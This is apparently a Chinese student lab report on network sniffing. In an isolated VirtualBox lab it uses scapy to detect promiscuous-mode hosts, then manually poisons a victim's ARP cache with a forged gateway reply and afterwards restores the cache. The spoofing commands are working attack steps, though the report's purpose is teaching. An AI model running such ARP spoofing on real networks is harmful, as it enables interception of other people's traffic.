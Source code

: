 # 实验四 网络监听

## 实验环境

为攻击者加一个内部网卡，使他们在同一局域网内

网络拓扑

|  对象   | ip地址 | 网卡/物理地址  |
|  ----  | ----  | ----  |
|  网关 gateway | 172.16.111.1 | 08:00:27:85:73:ce/enp0s9 |
|  攻击者 attacker | 172.16.111.113 | 08:00:27:21:8e:0e/eth0 |
|  受害者 victim | 172.16.111.147 | 08:00:27:e0:45:e0/eth0 |

## 实验过程

### 安装 scapy

在攻击者主机上提前安装好   `scapy`

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![installscapy.jpeg](img/installscapy.jpeg)

### 实验一：检测局域网中的异常终端

在受害者主机上检查网卡的混杂模式是否启用

```bash
ip link show eth0
```

![hunzamoshi](img/hunzamoshi.jpeg)

到攻击者主机上 `sudo scapy` ，启用 `scapy`

在 scapy 的交互式终端输入以下代码

```bash
pkt=promiscping("172.16.111.147")
```

回到受害者主机上手动开启该网卡的混杂模式，再次

```bash
ip link show eth0
```

![promisc](img/promisc.jpeg)

发现输出结果里多出了个 `PROMISC` 

回到攻击者主机上的 `scapy` 交互式终端继续执行命令

```bash
pkt = promiscping("172.16.111.147")
```

![hunza](img/hunza.jpeg)

看出在混杂模式下受害者主机收到了这个数据包

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

这时再发送，受害者主机将无法收到数据包

根据[混杂模式和非混杂模式](https://blog.csdn.net/lengye7/article/details/71191291?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167385977316800217032848%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=167385977316800217032848&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-71191291-null-null.142^v71^one_line,201^v4^add_ask&utm_term=%E6%99%AE%E9%80%9A%E6%A8%A1%E5%BC%8F%E5%92%8C%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F&spm=1018.2226.3001.4187)可以知道：

- 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，不验证MAC地址
- 普通模式：网卡只接收发给本机的包

### 手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的 `scapy` 交互式终端中构造一个 `arp` 请求

```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
且用
```
arpbroadcast.show()
```

查看构造好的 `ARP` 请求报文详情

![arpqingqiu](img/arpqingqiu.jpeg)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

```

![sendarp](img/sendarp.jpeg)

伪造网关的 `ARP` 响应包

```bash
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.147", hwdst="08:00:27:21:8e:0e")
```
`ARP` 响应的目的 `MAC` 地址设置为攻击者主机的 `MAC` 地址

发送上述伪造的 `ARP` 响应数据包到受害者主机

![sendfakearp](img/sendfakearp.jpeg)

此时在受害者主机上查看 `ARP` 缓存会发现网关的 `MAC` 地址已被替换为攻击者主机的 `MAC` 地址

```bash
ip neigh
```
![arpmac](img/arpmac.jpeg)

回到攻击者主机上的 `scapy` 交互式终端继续执行命令

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:73:ce", pdst="172.16.111.147", hwdst="08:00:27:e0:45:e0")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 `ARP` 记录

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ping](img/ping.jpeg)

![huifuwangguan](img/huifuwangguan.jpeg)

## 实验问题

在 `Virtual Box` 中手动进行攻击者主机的网络配置时，给它新增了 `intnet1` 网卡后用 `ip a` 命令查看不到新增的网卡信息，需要在攻击者主机的网络配置文件 `/etc/network/interfaces` 中用 `vim` 加入 `auto eth0 iface eth0 inet dhcp`

## 参考资料

[课本第四章实验](http://courses.cuc.edu.cn/course/90732/learning-activity/full-screen#/378666)
[混杂模式和非混杂模式](https://blog.csdn.net/lengye7/article/details/71191291?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167385977316800217032848%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=167385977316800217032848&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-71191291-null-null.142^v71^one_line,201^v4^add_ask&utm_term=%E6%99%AE%E9%80%9A%E6%A8%A1%E5%BC%8F%E5%92%8C%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F&spm=1018.2226.3001.4187)
[Kali虚拟机的nat网络配置](https://blog.csdn.net/AFture/article/details/113623313?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167386343216782425160886%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=167386343216782425160886&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-113623313-null-null.142^v71^one_line,201^v4^add_ask&utm_term=kali%20nat%E9%85%8D%E7%BD%AE&spm=1018.2226.3001.4187)